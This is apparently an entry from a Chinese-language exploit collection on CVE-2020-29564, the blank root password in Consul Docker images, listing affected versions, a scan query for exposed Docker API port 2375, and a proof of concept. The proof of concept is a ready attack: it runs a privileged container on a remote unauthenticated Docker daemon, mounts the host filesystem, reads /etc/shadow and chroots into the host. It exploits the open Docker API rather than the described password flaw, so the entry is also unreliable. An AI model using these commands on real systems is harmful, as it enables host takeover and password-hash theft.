 # 

# Consul Docker images 空密码登录漏洞 CVE-2020-29564

## 漏洞描述

Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

参考链接：

- https://github.com/koharin/CVE/blob/main/CVE-2020-29564

## 漏洞影响

```
Consul Docker images 0.7.1-1.4.2
```

## 网络测绘

```
port="2375" && protocol=="docker"
```

## 漏洞复现

poc：

```
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```


